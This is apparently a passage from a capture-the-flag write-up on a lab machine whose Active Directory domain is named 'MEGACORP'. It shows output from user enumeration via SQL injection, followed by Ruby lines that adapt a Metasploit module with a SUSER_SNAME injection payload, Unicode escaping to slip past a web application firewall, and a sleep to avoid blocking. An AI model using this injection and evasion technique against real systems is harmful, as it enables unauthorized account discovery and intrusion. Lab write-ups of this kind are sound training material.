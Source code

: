 ```bash
[*] Trying RID range: 570 - 580
[+] Found user: MEGACORP\\Allowed RODC Password Replication Group
[+] Found user: MEGACORP\\Denied RODC Password Replication Group
[*] Trying RID range: 580 - 590
...
[*] Trying RID range: 990 - 1000
[+] Found user: MEGACORP\\MULTIMASTER$
[*] Trying RID range: 1000 - 1010
...
[*] Trying RID range: 1100 - 1110
[+] Found user: MEGACORP\\DnsAdmins
[+] Found user: MEGACORP\\DnsUpdateProxy
[+] Found user: MEGACORP\\svc-nas
[+] Found user: MEGACORP\\Privileged IT Accounts
[+] Found user: MEGACORP\\tushikikatomo
[*] Trying RID range: 1110 - 1120
[+] Found user: MEGACORP\\andrew
[+] Found user: MEGACORP\\lana
[*] Trying RID range: 1120 - 1130
...
[*] Trying RID range: 1600 - 1610
[+] Found user: MEGACORP\\alice
[+] Found user: MEGACORP\\test
...
[*] Trying RID range: 2100 - 2110
[+] Found user: MEGACORP\\dai 
[+] Found user: MEGACORP\\svc-sql
...
[*] Trying RID range: 2990 - 3000
```

We also got some groups, however the most interesting ones are the users `tushikikatomo`, `andrew` and `lana`.

#### Metasploit Module

The Metasploit module needs a couple of changes in order to work . First the sql payload needs to be unicode-escaped. Second a short sleep has to be added, otherwise the WAF blocks our requests. There are probably a couple of more changes necessary to make this fully work. However this should do the basic trick.

```ruby
...
sql = "(SELECT '#{clue_start}'+(SELECT SUSER_SNAME(#{user_sid}) as name)+'#{clue_end}')" # SQL-injection
sql = sql.unpack('U*').map{ |i| "\\u" + i.to_s(16).rjust(4, '0') }.join # Unicode-escaping
sleep(1) #Sleep for WAF
...
```



## Getting a shell as user
